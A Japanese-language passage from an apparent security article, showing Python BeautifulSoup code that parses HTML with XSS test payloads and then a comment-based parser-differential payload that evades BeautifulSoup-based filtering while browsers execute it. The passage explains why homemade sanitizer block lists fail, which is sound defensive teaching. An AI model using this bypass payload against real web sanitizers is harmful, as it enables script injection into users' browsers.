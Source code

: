 ```python
from bs4 import BeautifulSoup
html = """
  <div>
    test
    <script>alert(1)</script>
    <img src=x onerror=alert(1)>
  </div>
"""
tree = BeautifulSoup(html, "html.parser")
for element in tree.find_all():
  print(f"name: {element.name}")
  print(f"attrs: {element.attrs}")
```

このプログラムの出力は次のとおりです。

```
name: div
attrs: {}
name: script
attrs: {}
name: img
attrs: {'src': 'x', 'onerror': 'alert(1)'}
```

タグ名と属性を正しく解析しているため、問題ないように見えます。では、自分で許可リストやブロックリストを作成できないのでしょうか？それは合理的だと思われますが、実際には...

```python
from bs4 import BeautifulSoup
html = """
  <div>
    test
    <!--><script>alert(1)</script>-->
  </div>
"""
tree = BeautifulSoup(html, "html.parser")
for element in tree.find_all():
  print(f"name: {element.name}")
  print(f"attrs: {element.attrs}")
```

出力は次のとおりです。

```
name: div
attrs: {}
```

正常に見えますが、上記のHTMLをブラウザで開くと、JavaScriptコードが実行され、おなじみのダイアログが表示されます。BeautifulSoupによるチェックが正常にバイパスされたことを示します。

バイパスは、次のHTMLに対するブラウザとBeautifulSoupの解析の違いに基づいています。

```html
<!--><script>alert(1)</script>-->
```
